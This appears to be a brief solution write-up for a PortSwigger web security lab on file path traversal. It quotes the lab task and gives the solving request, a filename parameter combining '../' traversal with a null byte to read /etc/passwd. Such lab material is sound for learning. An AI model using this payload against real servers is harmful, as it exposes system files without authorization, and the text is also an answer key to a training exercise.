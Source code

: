 # 6 - Validation of file extension with null byte bypass

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application validates that the supplied filename ends with the expected file extension.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

![](../../.gitbook/assets/imagen%20%28636%29.png)

```text
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
```



